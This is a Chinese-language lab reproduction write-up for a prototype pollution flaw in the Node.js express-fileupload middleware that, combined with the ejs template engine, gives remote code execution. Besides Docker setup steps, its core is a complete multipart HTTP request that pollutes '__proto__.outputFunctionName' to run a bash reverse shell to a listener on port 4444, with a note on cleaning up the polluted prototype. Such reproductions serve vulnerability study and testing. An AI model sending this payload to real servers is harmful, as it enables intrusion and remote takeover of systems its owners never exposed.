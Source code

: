 # NodeJS expresss-fileupload模块原型链污染漏洞（CVE-2022-7699）

## 漏洞原理

`express-fileupload`是用来处理上传文件的中间件，在`1.1.7-alpha.4`及以前的版本存在原型链污染漏洞，如果站点还使用`ejs模板引擎(<=3.1.6)`，可以通过构造调用链污染`outputFunctionName`参数从而造成远程代码执行。

参考链接：

参考链接：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## 环境搭建

编译及运行环境：

```bash
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/`即可查看。

![img](1.png)

首先在本机开启端口监听，之后发送如下数据包，即可成功反弹shell。

```text
POST /upload HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：发送攻击后，会污染整个程序的原型链。之后正常的访问页面也会有影响，除非重启整个程序。所以需要删除污染的原型。
